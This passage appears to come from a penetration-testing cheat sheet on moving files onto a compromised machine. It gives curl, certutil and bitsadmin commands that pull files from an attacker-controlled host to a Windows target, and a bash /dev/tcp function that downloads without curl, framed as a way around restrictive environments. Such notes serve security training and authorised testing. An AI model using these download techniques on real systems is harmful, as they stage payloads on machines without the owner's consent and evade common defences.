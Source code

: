 Use the following command to download to a specified path:

```
curl -o C:\Users\Public\file.txt http://192.168.1.100:8080/file.txt
```

### curl version
```
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
__curl http://<LHOST>/<FILE> > <OUTPUT_FILE>
```

## File Transfer using Certutil (Windows Only)
Certutil is a built-in Windows tool commonly used for managing certificates, but it also supports file downloads, making it ideal in restrictive environments.

Start a Python HTTP server on the Linux machine.

On the Windows target, use Certutil to download the file:

```
certutil -urlcache -f http://192.168.1.100:8080/file.txt C:\Users\Public\file.txt
```
Verify the file download by checking the destination directory.

## File Transfer using Bitsadmin (Windows Only)
BITSAdmin, another Windows utility, uses the Background Intelligent Transfer Service (BITS) to manage file downloads in the background.

On the Windows machine, open a PowerShell terminal.

Run the following command:

```
bitsadmin /transfer mydownload /download /priority normal http://192.168.1.100:8080/file.txt C:\Users\Public\file.txt
```
Check the Transfer Status:

```
bitsadmin /info mydownload /verbose
```
